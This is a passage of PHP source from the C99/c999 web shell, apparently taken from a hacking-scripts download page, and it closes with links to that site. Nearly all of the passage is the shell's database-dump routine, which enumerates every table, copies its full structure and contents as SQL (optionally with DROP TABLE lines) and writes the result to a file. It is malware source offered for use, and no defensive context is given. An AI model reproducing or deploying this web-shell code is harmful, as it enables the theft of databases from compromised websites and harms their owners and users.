  {
  // retrive tables-list
  $res = mysql_query("SHOW TABLES FROM ".$db, $sock);
  if (mysql_num_rows($res) &gt; 0) {while ($row = mysql_fetch_row($res)) {$tabs[] = $row[0];}}
 }
 $out = "# Dumped by c999Shell.SQL v. ".$shver."
# Home page: http://ccteam.ru
#
# Host settings:
# MySQL version: (".mysql_get_server_info().") running on ".getenv("SERVER_ADDR")." (".getenv("SERVER_NAME").")"."
# Date: ".date("d.m.Y H:i:s")."
# DB: \"".$db."\"
#---------------------------------------------------------
";
 $c = count($onlytabs);
 foreach($tabs as $tab)
 {
  if ((in_array($tab,$onlytabs)) or (!$c))
  {
   if ($add_drop) {$out .= "DROP TABLE IF EXISTS `".$tab."`;\n";}
   // recieve query for create table structure
   $res = mysql_query("SHOW CREATE TABLE `".$tab."`", $sock);
   if (!$res) {$ret["err"][] = mysql_smarterror();}
   else
   {
    $row = mysql_fetch_row($res);
    $out .= $row["1"].";\n\n";
    // recieve table variables
    $res = mysql_query("SELECT * FROM `$tab`", $sock);
    if (mysql_num_rows($res) &gt; 0)
    {
     while ($row = mysql_fetch_assoc($res))
     {
      $keys = implode("`, `", array_keys($row));
      $values = array_values($row);
      foreach($values as $k=&gt;$v) {$values[$k] = addslashes($v);}
      $values = implode("', '", $values);
      $sql = "INSERT INTO `$tab`(`".$keys."`) VALUES ('".$values."');\n";
      $out .= $sql;
     }
    }
   }
  }
 }
 $out .= "#---------------------------------------------------------------------------------\n\n";
 if ($file)
 {
  $fp = fopen($file, "w");
  if (!$fp) {$ret["err"][] = 2;}
  else
  {
   fwrite ($fp, $out);
   fclose ($fp);
  }
 }

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png
